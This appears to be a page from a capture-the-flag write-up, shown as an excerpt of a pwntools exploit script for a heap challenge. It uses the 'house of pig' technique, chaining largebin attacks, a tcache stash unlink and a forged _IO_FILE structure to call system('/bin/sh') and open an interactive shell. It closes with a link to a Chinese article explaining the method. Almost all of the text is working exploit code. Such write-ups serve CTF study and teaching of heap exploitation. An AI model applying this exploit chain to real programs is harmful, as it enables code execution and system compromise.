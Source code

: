 ```python
add_message(0x430,'largebin\n' * (0x430 // 48)) # 8
delete_message(7)
add_message(0x430,'push\n' * (0x430 // 48)) # 9
change_rol(1)
change_rol(2)
edit_message(7,(p64(0) + p64(__free_hook_addr - 0x28)) * (0x420//48))

change_rol(1)
delete_message(14)
add_message(0x430,'push\n' * (0x430 // 48)) # 15
# largebin attack done

change_rol(3)
add_message(0x410,'get_back\n' * (0x430 // 48)) # 0

change_rol(1)
edit_message(9,(p64(heap_base + 0x12C20) + \
                p64(__free_hook_addr - 0x20)) * (0x150 // 48))
change_rol(3) 
add_message(0x90,'do stash\n' * (0x90 // 48)) # 1
# stash unlink done
change_rol(2)
edit_message(7,(p64(0) + p64(_IO_list_all_addr - 0x20)) * (0x420//48))
change_rol(3)
delete_message(0)
add_message(0x430,'push\n' * (0x430 // 48)) # 2
# second largebin atk
change_rol(3)
add_message(0x330,'pass\n' * (0x430 // 48)) # 3
add_message(0x430,'pass\n' * (0x430 // 48)) # 4

fake_IO_FILE = ''
fake_IO_FILE += 2 * p64(0)
fake_IO_FILE += p64(1) # _IO_write_base
fake_IO_FILE += p64(0xFFFFFFFFFFFFFFFF) # _IO_write_ptr
fake_IO_FILE += p64(0) # _IO_write_end
fake_IO_FILE += p64(heap_base + 0x13E20) # old_buf, _IO_buf_base
fake_IO_FILE += p64(heap_base + 0x13E20 + 0x18) # calc the memcpy length, _IO_buf_end
fake_IO_FILE = fake_IO_FILE.ljust(0xC0 - 0x10,'\x00')
fake_IO_FILE += p32(0) # mode <= 0
fake_IO_FILE += p32(0) + p64(0) * 2 # bypass _unused2
fake_IO_FILE += p64(_IO_str_jump_addr)
payload = fake_IO_FILE + '/bin/sh\x00' + 2 * p64(system_addr)
sh.sendlineafter("01dwang's Gift:\n",payload)
#add_message(0x410,'large_bin\n' * (0x410 // 48)) # 1
sh.sendlineafter("Choice: ",'5')
sh.sendlineafter("user:\n",'')

sh.interactive()
```

## 参考
> [house of pig一个新的堆利用详解](https://www.anquanke.com/post/id/242640#h2-3)

